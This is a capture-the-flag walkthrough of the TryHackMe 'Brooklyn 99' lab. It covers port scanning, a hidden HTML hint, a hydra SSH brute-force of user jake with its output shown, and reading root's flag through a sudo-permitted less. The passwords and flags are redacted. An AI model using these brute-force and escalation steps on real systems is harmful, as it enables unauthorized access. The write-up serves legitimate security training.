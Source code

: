 <a href="https://tryhackme.com/room/brooklynninenine"><img src="../images/THMlogo.png" alt="tryhackme" width="200"/></a>

# Brooklyn 99

## nmap
```
Port 21 ftp - anonymous allowed
Port 22 ssh
Port 80 http
```
## gobuster
Gobuster did not big anything to the table, so lets look to the actual front facing website.

## webside
If we view source we can see a comment:
```
<!-- Have you ever heard of steganography? -->
```
So lets download that image and see what it gives us.
```
wget http://10.10.230.236/brooklyn99.jpg
--2020-07-26 11:28:24--  http://10.10.230.236/brooklyn99.jpg
Connecting to 10.10.230.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69685 (68K) [image/jpeg]
Saving to: ‘brooklyn99.jpg’

brooklyn99.jpg               100%[============================================>]  68.05K  --.-KB/s    in 0.09s   

2020-07-26 11:28:24 (762 KB/s) - ‘brooklyn99.jpg’ saved [69685/69685]
```
## steganography

First things first lets just check the .jpg with file and strings in case anything pops out. This shows nothing but when we use steghide, the file comes back as corrupted. Possibly as the data that was hidden is compressed first. Somethingto come back to if we need more details.

## ftp

Lets see what we can get on the FTP server. As it is anonymous, I just use the browser to see what files are available. In this case we have a note from Amy to Jake:
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
From this we can make an assumption that we have two usernames jake and amy, both characters from the series. Also we are assured that Jake's password is a weak one.
Lets try and see what Hydra GUI can do with this for ftp first, using jake as the username and rockyou.txt as the list and then for ssh:

Nothing on the ftp side but success on the ssh:
```
hydra -s 22 -l jake -P /usr/share/wordlists/rockyou.txt -t 16 10.10.230.236
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 11:53:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.230.236:22/
[22][ssh] host: 10.10.230.236   login: jake   password: <insertpasswordhere>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 11:54:19
<finished>
```
## ssh
Now we can logon as Jake.
```
ssh jake@10.10.230.236 
jake@10.10.230.236's pasword:
```
Let's look around. Nothing in Jake's home directory. We can however see two other user directories - Amy and Holt.

**Amy**
I can see that again her home directory is empty, but she does have an .ssh folder. We could look at this later.

**Holt**
This time we can see two files.
1. nano.save 
2. user.txt

It we read this we get the answer to Task 1 #1

Now we will check out Jake's sudo -l permissions.

```
sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```
This looks interesting. Jake can run /usr/bin/less as root with no password. Lets try and read the root.txt assuming it is where it should be.

```
- Creator : Fsociety2006 --

Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <insertflaghere>

Enjoy!!
```
The comments in the room suggest a few ways to get root, so I will be coming back to try other ways!!
Great room for begineers like myself as well as being a great TV programme!!
